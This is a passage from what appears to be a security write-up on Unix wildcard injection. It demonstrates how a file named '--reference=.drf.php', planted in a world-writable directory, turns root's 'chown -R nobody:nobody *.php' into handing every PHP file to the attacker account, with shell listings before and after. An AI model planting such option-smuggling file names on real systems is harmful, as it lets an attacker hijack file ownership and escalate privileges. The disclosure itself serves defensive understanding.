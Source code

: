 Now we know how it’s possible to inject arbitrary arguments to the unix shell programs. In the following chapter we will discuss how we can abuse that feature to do much more than just recursively delete files.

## Something more useful…
Since now we know how it’s possible to inject arbitrary arguments to shell commands, let’s demonstrate few examples that are more useful, than just recursive file unlinking. First, when I stumbled across this wildcard tricks, I was starting to look for basic and common Unix programs that could be seriously affected  with arbitrary and unexpected arguments. In real-world cases, following examples could be abused in form of direct interactive shell poisoning, or through some commands started from cron job, shell scripts, through some web application, and so on.

In all examples below, attacker is hidden behind ‘leon’ account, and victim  is of course - root account.

## Chown file reference trick (file owner hijacking)
First really interesting target I’ve stumbled across is ‘chown’.  Let’s say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to ‘nobody’. Pay attention to the file owners in the following files list.

```shell
[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx———. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r———.  1 user user   66 Oct 28 17:36 admin.php
-rw-rw-r———.  1 user user   34 Oct 28 17:35 ado.php
-rw-rw-r———.  1 user user   80 Oct 28 17:44 config.php
-rw-rw-r———.  1 user user  187 Oct 28 17:44 db.php
-rw-rw-r———.  1 user user  201 Oct 28 17:35 download.php
-rw-r———r———.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r———.  1 user user   43 Oct 28 17:35 file1.php
-rw-rw-r———.  1 user user   56 Oct 28 17:47 footer.php
-rw-rw-r———.  1 user user  357 Oct 28 17:36 global.php
-rw-rw-r———.  1 user user  225 Oct 28 17:35 header.php
-rw-rw-r———.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r———.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r———.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw——.  1 user user   66 Oct 28 17:35 password.inc.php
-rw-rw-r——.  1 user user   94 Oct 28 17:35 script.php
```

Files in this public directory are mostly owned by the user named ‘user’,  and root user will now change that to ‘nobody’.

```shell
[root@defensecode public]# chown -R nobody:nobody *.php
```

Let’s see who owns files now…

```shell
[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx———. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r———.  1 leon leon   66 Oct 28 17:36 admin.php
-rw-rw-r———.  1 leon leon   34 Oct 28 17:35 ado.php
-rw-rw-r———.  1 leon leon   80 Oct 28 17:44 config.php
-rw-rw-r———.  1 leon leon  187 Oct 28 17:44 db.php
-rw-rw-r———.  1 leon leon  201 Oct 28 17:35 download.php
-rw-r———r———.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r———.  1 leon leon   43 Oct 28 17:35 file1.php
-rw-rw-r———.  1 leon leon   56 Oct 28 17:47 footer.php
-rw-rw-r———.  1 leon leon  357 Oct 28 17:36 global.php
-rw-rw-r———.  1 leon leon  225 Oct 28 17:35 header.php
```